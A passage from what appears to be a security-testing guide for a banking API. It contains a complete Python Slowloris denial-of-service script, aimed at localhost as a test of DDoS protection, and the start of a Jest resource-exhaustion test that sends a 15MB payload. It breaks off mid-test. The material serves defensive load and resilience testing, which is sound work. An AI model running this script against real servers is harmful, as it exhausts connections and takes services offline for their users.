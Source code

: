 ### 4.2 DDoS Testing

#### Slowloris Attack Test
```python
# slowloris-test.py
import socket
import time
import threading
import random

def slowloris_attack(target_host, target_port, socket_count):
    """
    Simulate Slowloris attack for testing DDoS protection
    """
    sockets = []
    
    for i in range(socket_count):
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.settimeout(4)
            s.connect((target_host, target_port))
            
            s.send(f"GET /api/health HTTP/1.1\r\n".encode())
            s.send(f"Host: {target_host}\r\n".encode())
            s.send("User-Agent: slowloris-test\r\n".encode())
            s.send("Accept-language: en-US,en,q=0.5\r\n".encode())
            
            sockets.append(s)
        except socket.error:
            break
    
    print(f"Created {len(sockets)} connections")
    
    # Keep connections alive
    while True:
        for s in sockets:
            try:
                s.send("X-a: {}\r\n".format(random.randint(1, 5000)).encode())
            except socket.error:
                sockets.remove(s)
        
        time.sleep(15)

if __name__ == "__main__":
    # Test DDoS protection
    slowloris_attack("localhost", 3000, 200)
```

### 4.3 Resource Exhaustion Testing

#### Memory Usage Test
```javascript
// resource-exhaustion.test.js
describe('Resource Exhaustion Tests', () => {
  test('Should handle large payload sizes', async () => {
    const largePayload = 'x'.repeat(15 * 1024 * 1024) // 15MB payload
    
    const response = await request(app)
      .post('/api/banking/transfer')
      .set('Authorization', `Bearer ${validToken}`)
      .send({
        fromAccountId: "valid-uuid",
        toIban: "DE89370400440532013000",
```